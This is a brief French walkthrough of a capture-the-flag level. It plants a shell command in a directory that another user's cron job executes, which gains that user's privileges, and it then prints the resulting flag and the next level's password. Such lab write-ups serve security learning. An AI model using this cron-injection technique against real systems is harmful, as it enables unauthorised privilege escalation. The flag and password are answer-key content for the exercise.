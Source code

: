 # Pré requis

aucun

## GET Flag

echo "getflag > /var/tmp/passlv05 && chmod 777 /var/tmp/passlv05" > /opt/openarenaserver/breach
attendre que le fichier /opt/openarenaserver/breach soit supprimé par la crontab de flag05
cat /var/tmp/passlv05

# Flag

le fichier récemment créé: "/var/tmp/passlv05"
contient le résultat de la commande getflag lancé par flag05:
`viuaaale9huek52boumoomioc`

On peut se connecter sur le `level06`

```
level06
viuaaale9huek52boumoomioc
```

